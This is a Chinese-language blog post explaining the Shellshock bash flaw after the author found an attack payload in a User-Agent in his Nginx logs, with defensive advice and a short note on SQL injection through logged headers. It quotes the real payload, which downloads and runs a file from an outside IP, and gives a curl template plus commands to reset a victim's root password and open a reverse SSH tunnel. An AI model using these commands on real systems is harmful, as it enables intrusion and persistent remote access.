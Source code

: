 ```yaml
---
title: User-Agent 也能用来发起攻击
date: 2016-12-25 10:19
excerpt: "Shell 注入和 SQL 注入"
categories:
- history
- security
- injection
feature_image: "/assets/static/img/content.jpg?image=872"
---
```


## Attack with Shellshock
在记录了这么多的文档、笔记中，重要要在这个公众号中发一篇和攻击相关的记录了。写这篇内容的起因，是因为我在做 Nginx 日志分析的时候，用了 JSON 格式记录日志，但是某些不能被 JSON 解析的格式当做异常日志用邮件发了出来，其中一条日志引起了我的注意。

看到这个标题的时候，大概会想到 2014 年 9 月闹的沸沸扬扬的事件，那个礼拜内，几乎我加过的所有行业内的 QQ 群都在讨论它，影响非常大。

在今天凌晨 01：30 的时候，我收到一封邮件，邮件内容是一条完整的 Nginx 日志，日志中的 User-Agent 是这样的

``` shell
   "http_user_agent": "() { :;}; /bin/bash -c \x22rm -rf /tmp/w*;wget http://178.18.24.165/wp2 -O /tmp/wp2;curl -o /tmp/wp2 http://178.18.24.165/wp2;chmod +x /tmp/wp2;sh /tmp/wp2;rm -rf /tmp/w*\x22"
```

在这里，\x22 表示单引号，将其中的命令忽略后大概会变成这样：

``` shell
   () { :;}; /bin/bash -c 'command'
```

这个先放在这里，接下来还要提到两个前提。

### CGI 是什么？怎么工作的？
事实上 CGI、FastCGI 等等这些都是不同的东西，但是和主题无关，所以这里统称它们为 **CGI**，**CGI** 的技术是用来在 WEB 中解析动态语言的而生成动态页面的技术，比如，**Nginx** 本身并没有处理任何语言的能力，但是它能将请求转发给能够处理这些请求的其他服务，这里的“其他服务”指的就是 **CGI** 了。

在忽略各个 **CGI** 之间的区别的时候，我在这里用管理 **FastCGI** 的 **PHP-FPM + Nginx** 来举例，当 **Nginx** 接收到一个请求之后，**Nginx** 将当前这个请求的所有参数：包括 **环境变量** 、**HTTP header** 等数据发送给 **PHP-FPM**，**PHP-FPM** 主进程接收到这个请求后，调用已启动或者如果需要的话，启动一个新的进程来处理。

注意这里的 __环境变量__

### Shellshock
不得不说，我这篇小文章写了好几个小时了，因为我在边看恐怖片边写，真受不了自己 - -|||

在 **Bash 4.3** 之前的版本中，有一个 BUG，这个 BUG 事实上曾经被发现过，但是当时以为这个 BUG 只有在登录系统之后才能被执行，所以没有人理会它，它被当成一个可忽略的小问题。

而 **CGI** ！！！，我记得之前看过一篇文章，一个国外的大佬写的，大意是说 CGI 这种东西，是一个非常烂的技术，根本不应该被开发出来。

再回到刚才那个 User-Agent 的例子中：

``` shell
   () { :;}; /bin/bash -c 'command'
```

() { :;}; 这个部分是在定义一个没有名字且没有任何操作的的空函数

而在 **Bash 4.3** 之前的版本中，几乎所有版本都有这样一个问题，那就是在定义这样一个空函数时，并不检查尾部何时结束，而是执行所有 () { 之后的命令(操作)。

所以，在本例中，当 Nginx 接收到一个请求后，会将它的 **Header** 发送给 **CGI**，而 **CGI** 会将这些数据放到系统的环境变量中，而在初始化这些环境变量的时候，Boom~ 这个 User-Agent 在初始化的过程中就会被执行了。

## 有没有可能轻轻松松的做个黑客呢？
即使你不会使用更高级的语言，光会一个 **curl** 便可以简单的攻击并且攻击一个基于 **Nginx**、其他 **CGI** 的程序，再加上一个低版本的 **Bash**，如果对方的 **FPM** 是跑在**root** 账号下，并且允许 **root** 通过 **ssh** 远程登录的话，嘿嘿嘿~~~

你只需要在 **curl** 命令行中指定你要执行的命令就好，比如:

``` shell
   curl --user-agent "() { :;}; /bin/bash -c \x22 command \x22" http://xxx.xx.xxx/
```

这里的 **command** 可以像上述示例中的行为一样，从你的服务器上下载一个脚本，然后执行它，比如，先修改密码，然后，嘿嘿嘿~~~，有的服务器是在内网的，通过 **nat** 映射 **HTTP** 端口出网，但是，如果像下面这样：

``` shell
   echo "somthing you wanna password" | passwd --stdin
   ssh -C -f -N -g -R 1235:localhost:22 <your ip> -p <your ssh port>
```

这条命令的作用是在对方的服务器上执行，将对方的 **22** 端口的映射到你的服务器的 **1235** 端口上，这样的话，即使对方是隐藏在 **NAT** 的网络里，你仍旧可以通过登录在你自己的
服务器的 **IP** 的 **1235** 端口来登录到对方的服务器。

### 怎么防御呢？

有了上边的例子，就要有防范别人对你这么干，所以，如果有以下这样几个条件，也就能防止大多数攻击了。

1. 首先第一点就是升级你的 Bash，如果这个漏洞两年过去了你还没升级，呵呵呵呵~
2. 任何服务都不应该跑在 root 账号下
3. root 不应该被允许 ssh 登录
4. 跑服务的用户不应该被允许登录，我通常的做法是将它的 shell 改为 /sbin/nologin
5. 严格控制文件系统中各目录的权限，让这些用来跑服务的账号尽可能的减少对非工作目录读写的权限

### SQL Injection
上例中说的是一种典型的注入攻击，**Shell** 注入，很有意思哈~

现在简单说一个同样利用 **User-Agent** 来注入 **SQL** 的过程，事实上也是我正在犯的一个错，我做过，现在也在做一些日志分析的工具，将来也要做更大的日志分析平台，在我过去以及现在做的日志分析工具的中，我会把 **User-Agent** 以及其他信息直接保存到数据库中，__Just like MySQL__。

所以，当你在直接把这些嵌套了 SQL 语句的内容保存的 MySQL 中的时候，这些语句将会被执行。

大家更常见的是你的面向用户的程序中的 SQL 注入，所以会忽略类似这样的攻击，好吧，可能并不是所有人，但至少我是其中之一，呵呵哒

### End
上一篇说了我会选择记录一篇 **KeepAlived**，看起来得下次了。